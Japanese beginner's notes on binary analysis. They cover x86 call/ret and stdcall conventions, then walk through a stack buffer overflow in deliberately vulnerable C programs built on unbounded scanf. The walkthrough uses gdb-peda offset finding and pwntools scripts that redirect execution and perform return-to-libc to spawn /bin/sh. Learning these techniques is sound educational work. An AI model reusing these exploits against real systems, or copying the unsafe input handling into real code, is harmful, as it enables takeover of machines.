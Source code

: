 # はじめて学ぶバイナリ解析
- 関数呼び出しに関係するアセンブリ命令
	- call func : EIP(=call funcの次の命令が格納されているアドレス)をスタックにpushし、EIPをfunc中の先頭の命令が格納されているアドレスにする
	- ret : EIPをスタックのトップの値にしてからESPを4増やす(pop eipと同じ)
- 関数呼び出しの実装(呼び出し規約の1つであるstdcallの場合)
	- 呼び出し元
		- ```
		  push arg2 ; 第二引数をスタックにpush
		  push arg1 ; 第一引数をスタックにpush
		  call label ; EIP(=mov retval, eaxが格納されているアドレス)をスタックにpushし、EIPをpush ebpのアドレスにする
		  mov retval, eax ; 関数の戻り値はEAXに格納されているので、これを保存
		  ```
	- 呼び出し先
		- ```
		  label:
		    push ebp ; EBPをスタックにpush
		    mov ebp, esp ; EBPにESPを代入する
		    sub esp, buflength ; ESPをアドレスの小さい方に動かして、この関数で利用する分のバッファを確保する
		    mov eax, [ebp+0x8] ; EAXにarg1を代入する
		    mov ebx, [ebp+0xC] ; EBXにarg2を代入する
		    (処理) ; 本体の処理をする、返り値はEAXに格納される
		    mov esp, ebp ; ESPにEBPを代入する
		    pop ebp ; EBPを呼び出し元が利用していたスタック領域のEBPに戻し、ESPを4増やす
		    ret ; EIPをスタックのトップの値(=mov retvalが格納されているアドレス)にし、ESPを4増やす
		  ```
	- stdcall以外の呼び出し規約としてcdeclというのがある([参考](http://prasinos.blog2.fc2.com/blog-entry-627.html))
- リターンアドレスの書き換え
	- ```c
	  #include <stdio.h>
	  
	  void pwn() {
	    printf("hacked!");
	  }
	  
	  void vuln() {
	    char overflowme[48];
	    scanf("%[^\n]", overflowme);
	  }
	  
	  int main() {
	    vuln();
	    printf("failed!");
	    return 0;
	  }
	  ```
	- [%[^\n]について](https://ja.wikipedia.org/wiki/Scanf#%E5%A4%89%E6%8F%9B%E6%8C%87%E5%AE%9A)
	- バッファオーバーフローを利用して、リターンアドレスを書き換え、通常実行されないpwn関数を呼び出す
	- overflowmeの入力をするタイミングでESPからリターンアドレスまでの差がどれだけあるのかと、pwn関数のアドレスを知る必要がある
	- 前者はgdb-pedaのpattcとpattoで知ることが出来る
		- pattcは指定された長さの文字列を生成する
			- ```
			  gdb-peda$ pattc 10
			  'AAA%AAsAAB'
			  ```
		- pattoは指定した文字列がpattcで生成した文字列のどこに出てくるかを調べる(0-indexed)
			- ```
			  gdb-peda$ patto AA%A
			  AA%A found at offset: 1
			  ```
		- pattc 70で生成した文字列をoverflowmeの入力に与える
			- ```
			  gdb-peda$ pattc 70
			  'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3'
			  ```
		- ![2023_12_3_1.png](../assets/2023_12_3_1_1701613105826_0.png)
		- EIPが0x48414132(2AAH)に書き換わっている
		- pattoでESPからリターンアドレスまでの差が60バイトであることが分かる
			- ```
			  gdb-peda$ patto 2AAH
			  2AAH found at offset: 60
			  ```
		- EBPは0x41416341(AcAA)に書き換わっていて、これは2AAHの前の文字列である
		- 長めに70文字を入力したので、リターンアドレスを超えて、呼び出し元の関数が利用していたスタック領域も一部書き換えている
	- 後者はp <関数名>で知ることが出来る
		- ```
		  gdb-peda$ p pwn
		  $1 = {<text variable, no debug info>} 0x5655556d <pwn>
		  ```
	- 以下のプログラムでリターンアドレスをpwn関数のアドレスに書き換え、pwn関数を実行させることが出来る
		- ```python
		  from pwn import *
		  p = process("./a.out")
		  p.sendline("A"*60+"\x6d\x55\x55\x56")
		  print(p.recvline())
		  ```
		- リトルエンディアンで並び替えて、書き換えることに注意
- ステップイン実行とステップアウト実行
	- gdb-pedaでnを打つとステップイン実行、sを打つとステップアウト実行が行われる
	- call命令の時に実行中の関数から出ずに命令を進めるのがステップイン実行、実行中の関数を超えて命令を進めるのがステップアウト実行
- pattcとpattoを使わなくても、ステップアウト実行をすることで、ESPからリターンアドレスの差は求めることが出来る
- return to libc
	- リターンアドレスをlibc(標準Cライブラリ : standard c library)中のsystem関数などのアドレスに書き換える攻撃をreturn to libcと呼ぶ
	- system関数は引数として渡した文字列をコマンドとして実行する関数で、system("/bin/sh")を実行させることが出来れば、コンピュータを乗っ取ることが可能
- system関数開始時のスタックの状態
	- ```c
	  #include <stdlib.h>
	  
	  int main() {
	    system("/bin/ls");
	    return 0;
	  }
	  ```
	- ![2023_12_3_2.png](../assets/2023_12_3_2_1701613118782_0.png)
	- 0xffffcfacにはリターンアドレス0x56555547が格納されている
	- 0xffffcfb0には"/bin/ls"が格納されているアドレス(0x565555e0)が格納されている
- リターンアドレスをsystem関数のアドレスに書き換えるだけでなく、retでsystem関数にジャンプした後にsystem関数が正常に動作するために、system関数が実行されるタイミングで、スタックのトップにsystem関数にとってのリターンアドレスが、その下に"/bin/sh"が格納されているアドレスが存在しなければいけない
- つまり入力は、適当な文字列+system関数のアドレス+system関数にとってのリターンアドレス+"/bin/sh"が格納されているアドレス、となる
	- system("/bin/sh")を実行させるだけなら、system関数にとってのリターンアドレスは適当で良い
- ```c
  #include <stdio.h>
  #include <stdlib.h>
  
  char global[] = "/bin/sh";
  
  void vuln() {
    printf("global:%p\n", global);
    char overflowme[32];
    scanf("%[^\n]", overflowme);
  }
  
  int main() {
    vuln();
    printf("failed!\n");
    return 0;
  }
  ```
	- 実際の攻撃ではメモリ上に"/bin/sh"を格納し、そのアドレスを取得して攻撃を行うが、手順が複雑であるため、今回はグローバル変数として定義し、そのアドレスを表示させる
	- グローバル変数が確保される領域を静的領域と呼び、静的領域はプログラム部ともスタック部とも異なる位置に存在し、プログラム内のどの関数からでもアクセス可能
- 以下のプログラムでsystem("/bin/sh")を実行させることが出来る
	- ```python
	  from pwn import *
	  p = process("./a.out")
	  p.sendline("A"*44+"\x00\xa2\xe1\xf7BBBB\x08\x70\x55\x56")
	  p.interactive()
	  ```
	- "A"*44は、ESPとリターンアドレスの差を埋める分
	- 0xf7e1a200はsystem関数のアドレス
	- BBBBはsystem関数にとってのリターンアドレスを適当に埋める分
	- 0x56557008は"/bin/sh"が格納されているアドレス
	- interactiveメソッドにより手動で入力を与えることが出来る